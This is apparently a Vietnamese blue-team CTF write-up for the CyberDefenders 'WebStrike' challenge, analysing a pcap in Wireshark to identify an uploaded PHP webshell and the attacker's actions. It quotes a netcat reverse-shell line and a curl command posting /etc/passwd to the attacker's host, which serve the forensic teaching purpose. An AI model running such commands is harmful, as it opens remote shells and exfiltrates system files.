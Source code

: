 # Webstrike - Week1
Tool sử dụng trong bài: Wireshark
Scenario (tình huống): Một điểm bất thường đã được phát hiện trong mạng nội bộ của công ty chúng tôi khi nhóm dev đã tìm thấy một tệp bất thường trên webserver. Nghi ngờ có mã độc, nhóm mạng đã chuẩn bị một tệp pcap có network traffic quan trọng để phân tích cho nhóm bảo mật. Hãy phân tích gói pcap.

Với bài lần này, ta được cung cấp 1 file **pcap** được nén trong file **zip** với password **cyberdefenders.org**.

Link -> [Cyberdefend](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)

----

# Các câu hỏi
![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/5d8a7e98-1536-47c9-b6ad-2218cc47d4a6)

Tạm dịch các câu hỏi:
1. Tìm kiếm địa chỉ IP của người tấn công
2. Tìm kiếm user-agent của kẻ tấn công
3. Tên của webshell đã upload
4. Tìm kiếm directory (thư mục) để chứa file vừa được upload
5. Webshell được gửi tới sử dụng port nào
6. Kẻ tấn công đang cố gắng lấy đi tập tin nào

# Bài làm
## Câu  1
Vì là người tấn công thì thường là người bắt đầu gói tin, nên mình sẽ lấy địa chỉ ip source của package đầu tiên

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/e423f212-d89b-4577-99d8-89b6954aa382)

Mình thử check địa chỉ **117.11.88.124** ở tại vị trí nào bằng [Ip location](https://www.iplocation.net/)

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/3eb8b49f-b59a-4897-a0cf-c481046f9e20)

Tại đây thì mình tìm được thành phố là Tianjin thì mình thử nhập vào ô điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/4ea6b7ee-851a-4d8f-8cb2-ccc190c2fe08)

## Câu 2
Vì câu này hỏi về user-agent, ta sẽ cùng đi tìm hiểu qua user-agent là gì
Về cơ bản, user-agent là thông tin bạn gửi tới server từ trình duyệt của bạn. Có thể hiểu nó là thứ để định danh bạn. Thông thường thông tim bao gồm:
* Phiên bản của trình duyệt
* Hệ điều hành của bên bạn
* Loại thiết bị (vd: Tablet, smartphone, laptop,...)
* 1 vài thông tin khác về client software

Trước tiên chúng ta cùng thử lọc xem cái nào có điều kiện ta cần. Mình sẽ lọc 2 lần với điều kiện thỏa mãn:
* Có source từ 117.11.88.124
* Có user-agent

Vậy ta có câu lệnh để lọc: 
`ip.src==117.11.88.124 && http.user_agent`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/ebf2e91e-f4c8-4657-934a-bd8b6afe7f50)

Mình xem thử 1 package, trong phần transmission control protocol (TCP) -> HyperText transfer protocol (Http) -> user-agent sẽ có đoạn string mình cần tìm 

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/37e1ba2e-1c63-46a5-9a71-1e4f366eae3f)

Theo như trên hình thì mình tìm được là `User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0\r\n` nhưng đuôi \r\n này là cách xuống dòng của window (Theo nguổn [StackOverflow](https://stackoverflow.com/questions/15433188/what-is-the-difference-between-r-n-r-and-n)). Và vì định dạng flag là không có đuôi \r\n nên flag chắc hẳn chỉ có phần `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`

Tiện cũng nói thêm về các cách xuống dòng ở trên các hệ điều hành:
* `\r` (Carriage return) là xuống dòng của MacOS từ trước X (Tức là từ đời dòng máy macintosh)
* `\n` (Line feed) là xuống dòng dành cho hệ điều hành macOS X, Unix và những bản phân phối của unix (Ubuntu, Kali linux,....)
* `\r\n` là xuống dòng dành cho Windows
**Với cái này mình có thể xác định được hệ điều hành của client sử dụng là gì**

Vậy mình thử nhập `Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0` vào phần điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/027bbd49-90ac-4b97-b8c1-9b539d25214e)

## Câu 3
Sau khi đọc câu này, mình sẽ thử kiểm tra xem từ file pcap này mình có xuất ra được file nào không bằng cách vào File -> Export object -> HTTP...

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/e54534ba-f1e3-4354-b0c0-0a309b668e3e)

Tại đây mình thấy 2 file đáng ngờ với dạng content là **multipart/form-data** tại package 53 và 63. Mình sẽ tiến hành kiểm tra 2 Package này. Điều cần chú ý ở đây là tại mục Multipart media encapsulation xem có cái gì liên quan tới tên file không

**Package 53**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/6ccc999f-f897-480b-819c-4b6097e99792)

**Package 63**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/46a3cdaf-f773-42f7-bfa0-0980d093bb6b)

Tại đây mình tìm thấy 1 phần khá đáng ngờ là **(application/X-php)**. Cái này còn được gọi là MIME (Multipurpose internet mail extension) dùng để trao đổi file với mail. Tại đây là đang trao đổi với file PHP

Mình sẽ tiến hành kiểm tra 2 mục này của cả 2 package 53 và 63

**Package 53**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/41f1b07a-312b-468b-9012-86fd6a0d99ea)

**Package 63**

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/f692d0a2-c3e2-451d-b51a-b3b49dc60d5a)

Tại package 63 có 1 đoạn hiển thị `filename=image.jpg.php`. Mình đoán cái này chính là đáp án với 2 lí do:
* Đoạn này giống như là đang cố gắng lừa người đây là 1 file hình ảnh vậy.
* Dạng của flag là \*\*\*\*\*.\*\*\*.\*\*\*

Mình thử nhập trên chỗ nhập flag là `image.jpg.php`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/029db335-ba29-40da-adb4-8a5c75d43c22)

## Câu 4

Vì file **image.jpg.php** (webshell) đã được tải lên, mình sẽ tìm kiếm package có chứa URI dẫn tới file đó

URI (Uniform Resource identifier) cơ bản là cách để nhận định tài nguyên trên web hay server nào đó. Tài nguyên ở đây có thể hiểu theo các file như file ảnh, video,.... Cấu trúc của URI bao gồm:
* URL (Uniform resource locator) có thể hiểu đơn giản là địa chỉ chung để truy xuất tài nguyên trên mạng máy tính. URL có dạng https://www.google.com/..... trong đó:
* * **https** là giao thức kết nối
  * **www.google.com** là tên miền
  * ..... Thường là đường dẫn tới file của trang web
* URN (Uniform resource name) Cơ bản là danh tính tài nguyên ở trên server. Nó thường là ISBN và ISSN. VD: urn:isbn:0132350882

Vì chúng ta có các dữ kiện trên, mình cần tìm tới đường dẫn đã lưu phần **image.jpg.php** bằng cách sử dụng filter: `http.request.full_uri contains "image.jpg.php"`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/df22bf25-da91-43b5-928e-b629ba9a6ca6)

Và ta có thể thấy đường dẫn tới thư mục upload là **/reviews/uploads**. Nhập thử lên web

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/151d3f90-c1a1-439a-adfe-2e751303e4ce)

## Câu 5

Với câu này, để xem phần webshell đã sử dụng port nào thì chúng ta chỉ cần check source code của nó. Vậy thì mình sẽ tiến hành xuất nó ra khỏi file pcap bằng cách vào File -> Export object -> HTTP...-> Chọn file (package 63) và Save.

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/58ea1db0-e6fa-44bb-976b-f3caeffe215f)

Mình thử mở source code lên

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/70620e8f-3bf0-4cdf-9380-a3c5a62b1a17)

Tại đây ta có thể thấy câu lệnh `nc 117.11.88.124 8080` trong đó:
* nc = netcat
* 117.11.88.124 là ip
* 8080 là port

Vậy mình thử nhập 8080 vào chỗ điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/508265b5-11cd-4909-8f55-e4af3edf65f4)

## Câu 6

Tại đây, ta có 2 thông tin sau:
* Vì ta đã biết webshell đang sử dụng Netcat nên ta có thể giới hạn lại giao thức là **tcp** hoặc **udp**.
* Vì đây là webshell nên mình cần tìm payload
* Cần lọc các giao thức http đi

Vậy ta sẽ có filter như sau:
`tcp.payload and tcp and !http`

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/39d3c58d-e559-4948-85fc-e5974ab621c9)

Tại đây mình tiến hành follow stream của package trên này. Bằng cách này chúng ta có thể biết kẻ tấn công của chúng ta đã giao tiếp gì với server

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/4f64d582-b887-4cf0-a6aa-233520a44adf)

Ở bên dưới, ta thấy có dòng `curl -X POST -d /etc/passwd http://117.11.88.124:443/`, tức họ đang cố gắng tải về file **passwd**. Thử nhập tên file vào ô điền flag

![image](https://github.com/wdchocopie/CTF-learning/assets/81132394/c175a45f-9b82-430a-8ba0-cb0fff12f9a5)


--**END**--
